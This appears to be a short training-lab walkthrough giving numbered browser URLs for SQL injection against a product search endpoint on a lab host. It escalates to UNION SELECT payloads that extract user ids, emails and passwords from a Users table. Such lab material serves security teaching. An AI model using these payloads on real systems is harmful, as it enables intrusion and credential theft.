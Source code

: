 ## Open Firefox browser 
6. 
``` 
http://labs.training.local/rest/products/search?q= 
```
7. 
``` 
http://labs.training.local/rest/products/search?q=test’-- 
```
8. 
``` 
http://labs.training.local/rest/products/search?q=test’)) -- 
```
10. 
``` 
http://labs.training.local/rest/products/search?q=test’)) UNION SELECT * FROM Users --
``` 
11. 
``` 
http://labs.training.local/rest/products/search?q=test')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users --
``` 
12. 
``` 
http://labs.training.local/rest/products/search?q=test')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users --
``` 

